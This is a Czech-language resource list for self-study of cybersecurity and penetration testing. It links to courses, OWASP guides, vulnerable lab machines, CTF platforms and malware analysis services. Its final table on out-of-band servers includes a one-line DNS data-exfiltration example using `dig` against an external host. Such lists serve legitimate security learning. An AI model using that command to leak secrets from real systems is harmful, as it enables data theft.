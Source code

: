 # Rozcestník pro samostudium kybernetické bezpečnosti

Užitečné odkazy pro oblast kybernetické bezpečnosti, zejména penetračního testování.

## Interaktivní tutoriály a kurzy

* [PortsWigger Web Security Academy](https://portswigger.net/web-security)
* [Hacker 101](https://www.hacker101.com/)
* [Open Security Training](https://www.opensecuritytraining.info/)
* [Cybrary](https://www.cybrary.it/)

## OWASP

* [OWASP Top Ten Project](https://owasp.org/www-project-top-ten/)
* [OWASP Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
* [OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/)

## Toolkit

* Kali Linux, ParrotOS Security
* [kali tools](https://tools.kali.org/tools-listing)

## Cheatsheets, návody, knihy

* [HackTricks](https://book.hacktricks.xyz/)
* [HackSplaining](https://www.hacksplaining.com/)
* [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/)

## Videa, konference, youtube

* [IppSec](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA)
* [VbScrub](https://www.youtube.com/channel/UCpoyhjwNIWZmsiKNKpsMAQQ)
* [SANS konference](https://www.sans.org/cyber-security-summit/archives/)
* [SANS webcasty](https://www.sans.org/webcasts/archive/2020)
* [defcon.org](https://www.youtube.com/user/DEFCONConference/playlists)
* [Wild West Hacking Fest](https://www.youtube.com/channel/UCef0TWni8ghLcJphdmDBoxw/videos)
* [Bugcrowd](https://www.youtube.com/c/Bugcrowd/videos)
* [VirSecCon2020](https://www.youtube.com/watch?v=B3Udl86Zu20&t=8s)

## Offline virtuálky a sandboxy pro hackování

* [OWASP Juice Shop Project](https://owasp.org/www-project-juice-shop/)
* [Damn Vulnerable Web Application](https://github.com/ethicalhack3r/DVWA)
* [Metasploitable 2](https://metasploit.help.rapid7.com/docs/metasploitable-2)
* [Metasploitable 3](https://github.com/rapid7/metasploitable3)
* [WebGoat](https://github.com/WebGoat/WebGoat)
* [vulnhub.com](https://www.vulnhub.com/)
* [OWASP Mutillidae II](https://github.com/webpwnized/mutillidae)

## On-line cvičení a CTFs

* [Hack The Box](https://hackthebox.eu)
* [SafeWeb.cz](https://www.safeweb.cz/)
* [HackEDU](https://www.hackedu.com/)
* [Hack This Site](https://hackthissite.org)
* [hackertest.net](https://hackertest.net)
* [root-me.org](https://root-me.org/?lang=en)
* [Secure Code Warrior](https://portal.securecodewarrior.com/)
* [ctftime.org](https://ctftime.org/)
* [thecatch.cz](https://www.thecatch.cz/)
* [attackdefense.com](https://attackdefense.com/)
* [237ctf](https://247ctf.com/)
* [CyberSecLabs](https://www.cyberseclabs.co.uk/)
* [Over The Wire](https://overthewire.org/)
* [defendtheweb.net](https://defendtheweb.net)

## Bug Bounty platformy

* [Hacker One](https://www.hackerone.com/)
* [BugCrowd](https://www.bugcrowd.com/)

## Malware analysis

| název                                    | popis                           |
| ---------------------------------------- | ------------------------------- |
| [VirusTotal](https://www.virustotal.com) | Analýza malwaru, hashe nebo URL |
| [AnyRun](https://app.any.run/)           | Interaktivní analýza malwaru    |

## Temporary domény, url, emaily, OOB servery

| název                                     | popis                                                             |
| ----------------------------------------- | ----------------------------------------------------------------- |
| * [webhook.site](https://webhook.site/)   | asi nejlepší možnost, až 500 requestů                             |
| * [pingb.in](http://pingb.in)             | data exiltration pomocí DNS lookup: `dig rand.SECRET.ns.pingb.in` |
| * [RequestBin.net](http://requestbin.net) | veřejné URL, ukazuje HTTP hlavičky, POST parametry, GET parametry |

